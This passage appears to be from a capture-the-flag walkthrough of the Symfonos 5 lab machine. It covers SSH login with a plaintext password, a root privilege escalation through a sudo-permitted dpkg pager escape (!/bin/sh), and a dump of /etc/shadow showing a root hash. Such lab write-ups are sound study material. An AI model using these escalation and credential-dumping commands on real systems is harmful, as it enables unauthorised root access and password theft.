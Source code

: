 #### SSH User Access

- `ssh zeus@10.0.2.10` <span class="fat-arrow">=></span> `cetkKf4wCuHC9FET`
- `whoami` <span class="fat-arrow">=></span> `zeus`

---

### Privilege Escalation

- `sudo -l`

```
User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

- [GTFOBins dpkg](https://gtfobins.github.io/gtfobins/dpkg/#shell)
- `sudo dpkg -l`
- This will invoke a default pager, most likely `less`.
- Then we can type `!/bin/sh` and we will get `root` shell. `!/bin/bash` also works.

![Symfonos 5 Privilege Escalation](symfonos5_privilege_escalation.png)
_Privilege Escalation_

- `cat /root/proof.txt`

![Symfonos 5 Root Proof](symfonos5_root_proof.png)

---

### Post Exploitation

- `cat /etc/shadow`

```
root:$6$LCi0CrNofw.bZNIH$1JzaRFhkZM5zjdzhkcHyRoNluDS2w40H99UpCJCAhjhIyltCRND/7yMqMIyZ77RZwK1VDqk9mwTuZ88eqxSEw.:18297:0:99999:7:::
```
